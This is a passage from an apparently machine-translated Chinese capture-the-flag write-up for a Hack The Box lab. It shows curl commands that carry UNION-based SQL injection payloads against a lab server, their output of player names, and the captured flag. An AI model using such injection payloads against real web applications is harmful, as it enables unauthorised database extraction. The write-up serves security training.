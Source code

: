 同样，我已经删除了我们感兴趣的部分，并添加了标签，以使我们清楚地看到了什么。我们有两张表，让我们来看看它们:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(player) from players -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'ippsec,celesian,big0us,luska,tinyboy
```

玩家表有 ippsec 和其他一些。注意，我在这里使用 group concat 来检索表中的所有条目，并将它们作为单个条目返回。没有它，你只能通过迭代一次看到一个。

# UHC 国旗

现在旗表:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(one) from flag -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'UHC{F1rst_5tep_2_Qualify}
```

只有一个条目我们可以在网站上试试:

![](img/73970d4f704e96b1bc7e62bf297f10c5.png)

IP 地址已被授予访问 SSH 的权限

我们也可以用 curl 来代替浏览器。发送玩家请求并查看响应的标题:
